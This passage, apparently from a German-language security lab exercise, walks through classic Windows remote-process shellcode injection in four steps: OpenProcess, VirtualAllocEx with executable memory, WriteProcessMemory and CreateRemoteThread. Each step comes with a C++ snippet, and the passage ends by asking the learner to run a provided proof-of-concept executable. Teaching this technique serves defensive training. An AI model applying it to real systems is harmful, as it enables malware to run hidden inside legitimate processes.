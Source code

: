 Im ersten Schritt können wir `OpenProcess` verwenden, um den Handle des spezifizierten Prozesses zu erhalten.
```C++
HANDLE hProcess = OpenProcess(
	PROCESS_ALL_ACCESS, // Defines access rights
	FALSE, // Target handle will not be inhereted
	DWORD(atoi(argv[1])) // Local process supplied by command-line arguments 
);
```

Im zweiten Schritt können wir `VirtualAllocEx` verwenden, um einen Speicherbereich mit dem Payload-Puffer zu allozieren.
```C++
remoteBuffer = VirtualAllocEx(
	hProcess, // Opened target process
	NULL, 
	sizeof payload, // Region size of memory allocation
	(MEM_RESERVE | MEM_COMMIT), // Reserves and commits pages
	PAGE_EXECUTE_READWRITE // Enables execution and read/write access to the commited pages
);
```

Im dritten Schritt können wir `WriteProcessMemory` verwenden, um das Payload in den allozierten Speicherbereich zu schreiben.
```C++
WriteProcessMemory(
	hProcess, // Opened target process
	remoteBuffer, // Allocated memory region
	payload, // Data to write
	sizeof payload, // byte size of data
	NULL
);
```

Im vierten Schritt können wir `CreateRemoteThread` verwenden, um unser Payload aus dem Speicher heraus auszuführen.
```C++
remoteThread = CreateRemoteThread(
	hProcess, // Opened target process
	NULL, 
	0, // Default size of the stack
	(LPTHREAD_START_ROUTINE)remoteBuffer, // Pointer to the starting address of the thread
	NULL, 
	0, // Ran immediately after creation
	NULL
); 
```

## Fragen:
Öffnen Sie eine Eingabeaufforderung und führen Sie die bereitgestellte Datei "inject-poc.exe" aus. Beantworten Sie dann die folgenden Fragen.
```
Keine Antwort nötig
```
